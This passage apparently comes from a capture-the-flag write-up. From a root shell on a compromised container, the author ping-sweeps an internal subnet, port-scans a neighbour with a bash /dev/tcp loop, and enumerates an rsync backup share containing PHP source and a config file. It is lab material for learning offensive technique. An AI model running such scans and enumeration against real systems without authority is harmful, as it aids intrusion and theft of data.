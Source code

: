 Again I checked the IP address. Now this time I got new host 172.20.0.3, I did a ping sweep on it.

```bash
root@www:/tmp# ip addr
ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
15: eth0@if16: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:14:00:03 brd ff:ff:ff:ff:ff:ff
    inet 172.20.0.3/16 brd 172.20.255.255 scope global eth0
       valid_lft forever preferred_lft forever
17: eth1@if18: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:13:00:04 brd ff:ff:ff:ff:ff:ff
    inet 172.19.0.4/16 brd 172.19.255.255 scope global eth1
       valid_lft forever preferred_lft forever
```

## Backup Container

```bash
root@www:/tmp# for i in $(seq 1 20); do (ping -c 1 172.20.0.$i | grep "bytes from"); done
<eq 1 20); do (ping -c 1 172.20.0.$i | grep "bytes from"); done              
64 bytes from 172.20.0.1: icmp_seq=1 ttl=64 time=0.057 ms
64 bytes from 172.20.0.2: icmp_seq=1 ttl=64 time=0.067 ms
64 bytes from 172.20.0.3: icmp_seq=1 ttl=64 time=0.038 ms
```

- .1 will be the host
- .2 is something we need to look.
- .3 is our IP

I did a portscan on it and only Port 873 is open. Now It makes sense that it’s open on 873, rsync, which is how www was connecting to it.

```bash
root@www:/tmp# bash -c 'for p in $(seq 1 10000); do(echo test >/dev/tcp/172.20.0.2/$p && echo "$p open") 2>/dev/null; done'
873 open
```

I tried to enumerate the rsync. By using `--list-only` it will list us everything.

```bash
root@www:/tmp# which rsync
which rsync
/usr/bin/rsync
root@www:/tmp# /usr/bin/rsync -av --list-only rsync://172.20.0.2/src/backup
/usr/bin/rsync -av --list-only rsync://172.20.0.2/src/backup
receiving incremental file list
drwxr-xr-x          4,096 2018/07/15 17:42:41 backup
-rw-r--r--          2,023 2018/05/04 19:55:07 backup/index.html
-rw-r--r--             17 2018/05/04 19:55:07 backup/info.php
drwxr-xr-x          4,096 2018/07/15 17:42:41 backup/8924d0549008565c554f8128cd11fda4
-rw-r--r--            280 2018/05/04 19:55:07 backup/8924d0549008565c554f8128cd11fda4/ajax.php
-rw-r--r--             40 2018/05/04 19:55:07 backup/8924d0549008565c554f8128cd11fda4/config.ini
drwxr-xr-x          4,096 2018/07/15 17:42:41 backup/8924d0549008565c554f8128cd11fda4/lib
-rw-r--r--          1,317 2018/05/04 19:55:08 backup/8924d0549008565c554f8128cd11fda4/lib/Autoloader.php
-rw-r--r--          4,307 2018/05/04 19:55:08 backup/8924d0549008565c554f8128cd11fda4/lib/Client.php
-rw-r--r--          1,739 2018/05/04 19:55:08 backup/8924d0549008565c554f8128cd11fda4/lib/Config.php
-rw-r--r--          1,252 2018/05/04 19:55:08 backup/8924d0549008565c554f8128cd11fda4/lib/JsonResult.php
-rw-r--r--            484 2018/05/04 19:55:08 backup/8924d0549008565c554f8128cd11fda4/lib/Pool.php
```
